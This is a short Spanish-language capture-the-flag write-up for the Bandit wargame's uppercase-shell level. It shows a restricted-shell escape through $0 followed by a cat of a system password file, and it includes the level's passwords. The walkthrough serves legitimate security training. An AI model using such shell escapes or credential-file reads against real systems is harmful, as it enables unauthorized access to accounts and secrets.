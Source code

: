 ## Objetivo
After all this `git` stuff its time for another escape. Good luck!

## Datos de acceso 
Contraseña: rmCBvG56y58BXzv98yZGdO7ATVL5dW8y

## Solución 
```
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: not found
>> 0
sh: 1: 0: not found
>> $0
$ ls
uppershell
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Feb 21 22:03 .
drwxr-xr-x 70 root     root      4096 Feb 21 22:04 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Feb 21 22:03 uppershell
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
```
## Notas adicionales 

## Referencias